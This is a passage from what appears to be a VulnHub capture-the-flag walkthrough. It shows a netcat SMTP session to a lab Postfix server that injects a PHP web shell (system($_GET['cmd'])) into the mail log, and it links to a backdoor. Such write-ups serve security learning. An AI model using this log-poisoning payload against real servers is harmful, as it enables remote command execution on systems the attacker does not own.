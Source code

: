 ![](images/6.png)

## Foothold

### Postfix mail log file backdoor

I used Postfix SMTP and sent a email with [php backdoor](https://github.com/leecybersec/web-shell/blob/master/php/backdoor.php)

> [*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/vulnhub/wintermute-1-straylight)

``` bash
┌──(Hades㉿192.168.56.110)-[3.0:40.9]~/scripting
└─$ nc -nC 192.168.56.102 25
220 straylight ESMTP Postfix (Debian/GNU)
mail from: "hades <?php system($_GET['cmd']); ?> hades"
250 2.1.0 Ok
rcpt to: "root@localhost"
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
.
250 2.0.0 Ok: queued as D4E985515
quit
221 2.0.0 Bye
```
